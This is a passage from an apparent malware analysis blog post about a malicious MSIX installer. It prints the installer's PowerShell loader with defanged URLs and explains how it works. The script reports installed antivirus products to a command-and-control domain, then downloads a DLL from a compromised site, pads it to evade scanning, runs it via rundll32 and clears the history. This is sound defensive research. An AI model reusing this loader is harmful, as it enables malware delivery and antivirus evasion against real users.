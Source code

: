 From the documentation, this configuration file may also contain in-line PowerShell code, so although our sample points to a script, others may use other techniques.


<br>

Finally the PowerShell script `NEW_User0_v2.ps1`

In the interest of making it safe, I have de-fanged the URLs.
I'm not quite ready to have _my_ domain appear as the top referrer to various command and control domains.

```powershell
sleep -Milliseconds 1221
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$AntiVirusProduct = Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct
$displayNames = $AntiVirusProduct | ForEach-Object {
    $_.displayName
}
$displayNamesString = $displayNames -join ", "
$url11 = "hxxps[:]//9sta9rt4[.]store/?status=start&av=$displayNamesString"
Invoke-RestMethod -Uri $url11 -Method GET
$randomNumber = Get-Random -Minimum 1010000 -Maximum 91198889999
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$webClient = New-Object System.Net.WebClient
$bytes = $webClient.DownloadData("hxxps[:]//associazionedignita[.]it/wp-content/uploads/2023/06/r.dll")
$currentFileSize = $bytes.Count
$sizeToAdd = Get-Random -Minimum 750000000 -Maximum 900000000
$newFileSize = $currentFileSize + $sizeToAdd
$bytesToAdd = New-Object byte[] $sizeToAdd
$newBytes = New-Object byte[] $newFileSize
[System.Array]::Copy($bytes, $newBytes, $bytes.Length)
[System.Array]::Copy($bytesToAdd, 0, $newBytes, $bytes.Length, $bytesToAdd.Length)
[System.IO.File]::WriteAllBytes("$env:APPDATA\z$randomname.dll", $newBytes)
rundll32 $env:APPDATA\z$randomname.dll, vcab /k chokopai723
Invoke-WebRequest -Uri ("hxxps[:]//9sta9rt4[.]store/?status=install") -UseBasicParsing

Clear-History
```

Breaking the script into manageable bytes, it begins with a sleep of 1221 milliseconds.

Next it sets some TLS parameters to force TLS version 1.2, before querying the list of antivirus products installed on the host.
Once it has the list, it issues a HTTP GET request sending the list as a URL parameter.

The domain used to receive the information was previously identified in [part 1]()

```powershell
sleep -Milliseconds 1221
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$AntiVirusProduct = Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct
$displayNames = $AntiVirusProduct | ForEach-Object {
    $_.displayName
}
$displayNamesString = $displayNames -join ", "
$url11 = "hxxps[:]//9sta9rt4[.]store/?status=start&av=$displayNamesString"
Invoke-RestMethod -Uri $url11 -Method GET
```


[^1]: [https://www.malware-traffic-analysis.net](https://www.malware-traffic-analysis.net)
[^2]: [https://docs.velociraptor.app/](https://docs.velociraptor.app/)
[^3]: [https://learn.microsoft.com/en-us/windows/msix/overview](https://learn.microsoft.com/en-us/windows/msix/overview)
[^4]: [https://learn.microsoft.com/en-us/windows/msix/desktop/desktop-to-uwp-behind-the-scenes#installation](https://learn.microsoft.com/en-us/windows/msix/desktop/desktop-to-uwp-behind-the-scenes#installation)
[^5]: [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/6e3f7352-d11c-4d76-8c39-2516a9df36e8](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/6e3f7352-d11c-4d76-8c39-2516a9df36e8)
[^6]: [https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck](https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck)
[^7]: [https://gchq.github.io/CyberChef/#recipe=Parse_X.509_certificate('PEM')](https://gchq.github.io/CyberChef/#recipe=Parse_X.509_certificate('PEM'))
[^8]: [https://learn.microsoft.com/en-us/windows/msix/desktop/flexible-virtualization](https://learn.microsoft.com/en-us/windows/msix/desktop/flexible-virtualization)
[^9]: [https://www.advancedinstaller.com/user-guide/custom-actions-list.html#attached-action](https://www.advancedinstaller.com/user-guide/custom-actions-list.html#attached-action)
[^10]: [https://www.advancedinstaller.com/user-guide/powershell-script-options-dialog.html](https://www.advancedinstaller.com/user-guide/powershell-script-options-dialog.html)
[^11]: [https://www.virustotal.com/gui/file/fea3c21148ede04ce6ab7078937991b14551964457d116eca54c61df4a7e68ce/detection](https://www.virustotal.com/gui/file/fea3c21148ede04ce6ab7078937991b14551964457d116eca54c61df4a7e68ce/detection)
[^12]: [https://learn.microsoft.com/en-us/visualstudio/debugger/specify-symbol-dot-pdb-and-source-files-in-the-visual-studio-debugger?view=vs-2022](https://learn.microsoft.com/en-us/visualstudio/debugger/specify-symbol-dot-pdb-and-source-files-in-the-visual-studio-debugger?view=vs-2022)
[^13]: [https://censys.io](https://search.censys.io/hosts/77.111.240.213?resource=hosts&sort=RELEVANCE&per_page=25&virtual_hosts=EXCLUDE&q=associazionedignita.it&at_time=2023-12-18T12%3A36%3A21.779Z)